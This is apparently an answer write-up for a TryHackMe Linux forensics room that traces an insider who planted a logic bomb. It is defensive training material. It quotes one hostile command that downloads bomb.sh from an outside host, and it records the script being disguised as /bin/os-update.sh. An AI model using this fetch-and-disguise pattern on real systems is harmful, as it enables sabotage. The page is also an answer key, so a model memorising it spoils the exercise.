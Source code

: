 # Disgruntled

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/03de138b8dfa8f5b003298c17b73fbd8.png" width="128" />

### Task 1 Introduction

> Grab a cup of coffee.

No answer needed

### Task 2 Linux Forensics review

> Take a sip of coffee.

No answer needed

### Task 3 Nothing suspicious... So far

> The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

/usr/bin/apt install dokuwiki

> What was the present working directory (PWD) when the previous command was run?

/home/cybert

### Task 4 Let’s see if you did anything bad

> Which user was created after the package from the previous task was installed?

it-admin

> A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

Dec 28 06:27:34

> A script file was opened using the "vi" text editor. What is the name of this file?

bomb.sh

### Task 5 Bomb has been planted. But when and where?

> What is the command used that created the file bomb.sh?

curl 10.10.158.38:8080/bomb.sh --output bomb.sh

> The file was renamed and moved to a different directory. What is the full path of this file now?

/bin/os-update.sh

> When was the file from the previous question last modified? (Format: Month Day HH:MM)

Dec 28 06:29

> What is the name of the file that will get created when the file from the first question executes?

goodbye.txt

### Task 6 Following the fuse

> At what time will the malicious file trigger? (Format: HH:MM AM/PM)

08:00 AM

### Task 7 Conclusion

> I’m kidding, of course! But you did good, kid.

No answer needed
